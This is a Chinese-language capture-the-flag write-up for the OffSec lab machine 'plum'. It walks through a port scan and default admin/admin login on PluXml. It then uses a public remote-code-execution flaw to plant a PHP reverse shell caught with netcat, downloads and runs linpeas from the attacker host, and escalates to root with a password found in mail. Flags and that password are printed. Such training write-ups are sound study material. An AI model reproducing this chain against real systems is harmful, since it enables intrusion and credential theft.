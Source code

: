 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# plum
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.28 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.28:22
Open 192.168.219.28:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
|_http-favicon: Unknown favicon MD5: 2D58FC0104110AF4C9BE979DFD8FD83C
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: PluXml - Blog or CMS, XML powered !
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

查看`192.168.219.28`並點擊最下面的`Administration`，以`admin/admin`登入帳號
搜尋[PluXml Blog 5.8.9 Remote Code Execution](https://packetstormsecurity.com/files/176407/PluXml-Blog-5.8.9-Remote-Code-Execution.html)，參考步驟

先點擊`Static pages > Edit`

![plum_1.png](picture/plum_1.png)

在裡面加上php的payload，點`save`
開啟nc，點擊`001`的page的`see`可獲得反彈shell，在`/var/www`可獲得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@plum:/var/www$ cat local.txt
cc13c8e7bb43f85fb3ba456df8621657
```

使用linpeas，看到有mail看看，在`/var/spool/mail/www-data`看到root的密碼
```
www-data@plum:/tmp$ wget 192.168.45.175/linpeas.sh
www-data@plum:/tmp$ chmod +x linpeas.sh
www-data@plum:/tmp$ ./linpeas.sh 

...
╔══════════╣ Mails (limit 50)
   272394      8 -rw-rw----   1 www-data mail         4563 Apr  1 04:04 /var/mail/www-data
   272394      8 -rw-rw----   1 www-data mail         4563 Apr  1 04:04 /var/spool/mail/www-data
...

www-data@plum:/var/spool/mail$ cat www-data
cat www-data
From root@localhost Fri Aug 25 06:31:47 2023
Return-path: <root@localhost>
Envelope-to: www-data@localhost
Delivery-date: Fri, 25 Aug 2023 06:31:47 -0400
Received: from root by localhost with local (Exim 4.94.2)
        (envelope-from <root@localhost>)
        id 1qZU6V-0000El-Pw
        for www-data@localhost; Fri, 25 Aug 2023 06:31:47 -0400
To: www-data@localhost
From: root@localhost
Subject: URGENT - DDOS ATTACK"
Reply-to: root@localhost
Message-Id: <E1qZU6V-0000El-Pw@localhost>
Date: Fri, 25 Aug 2023 06:31:47 -0400

We are under attack. We've been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:  
root:6s8kaZZNaZZYBMfh2YEW
Thanks,
Administrator
...
```

切換成root，到/root可取得proof.txt
```
www-data@plum:/var/spool/mail$ su root
Password: 6s8kaZZNaZZYBMfh2YEW

root@plum:/var/spool/mail# cd /root
root@plum:~# 
root@plum:~# cat proof.txt
3fabcf366229a14ff52af84e7ed64770
```